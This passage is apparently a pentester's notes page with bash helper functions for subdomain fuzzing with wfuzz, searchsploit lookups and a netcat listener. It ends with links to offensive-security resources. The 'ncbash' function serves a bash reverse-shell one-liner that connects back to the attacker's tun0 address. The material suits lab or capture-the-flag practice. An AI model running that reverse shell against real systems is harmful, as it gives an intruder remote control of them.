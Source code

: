 ```bash

wfuzznames () {
    url="$1"; shift; wfuzz -c -w /usr/share/seclists/Discovery/DNS/namelist.txt -u http://$url -H "Host: FUZZ.$url" "$@"
}

ssx () {
    searchsploit -x "$@"
}

ssm () {
    searchsploit -m "$@"
}

ncbash () {
    echo "bash -i >& /dev/tcp/$(tun0)/9001 0>&1" | nc -lvnp 1234
}

```

## Resources

[0xdf](https://0xdf.gitlab.io/)

[HackTricks](https://book.hacktricks.xyz/)

[Ippsec.rocks](https://ippsec.rocks/)

[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

[RevShells](https://www.revshells.com/)
